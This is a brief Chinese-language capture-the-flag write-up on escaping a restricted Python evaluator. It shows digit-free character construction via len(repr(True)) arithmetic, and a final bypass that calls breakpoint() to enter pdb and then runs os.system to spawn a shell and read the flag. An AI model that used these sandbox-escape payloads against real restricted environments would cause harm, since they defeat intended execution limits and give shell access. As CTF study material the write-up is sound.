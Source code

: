 感觉这题简单的让我懵逼，没想到是这个东西，原本一直在绕

还写了一点hint.txt

```
大概可以绕过的思路
print
构造数字 len(repr(True))
目测的payload
构造os o=111=4*4*4+4*4*2+4*4*1-1 s=115
这里构造的为字符串
exec(ls)

print((chr(len(repr(True))*len(repr(True))*(len(repr(True))+True+True+True)-True)+chr(len(repr(True))*len(repr(True))*(len(repr(True))+True+True+True)-True+len(repr(True))))[::-True])
```

最后发现可以用breakpoint()

pdb 模块定义了一个交互式源代码调试器，用于 Python 程序。它支持在源码行间设置（有条件的）断点和单步执行，检视堆栈帧，列出源码列表，以及在任何堆栈帧的上下文中运行任意 Python 代码。它还支持事后调试，可以在程序控制下调用。

在输入 breakpoint() 后可以代开 Pdb 代码调试器，在其中就可以执行任意 python 代码

然后即可执行import os;os.system("$(which sh)"即可拿到shell权限即可获取flag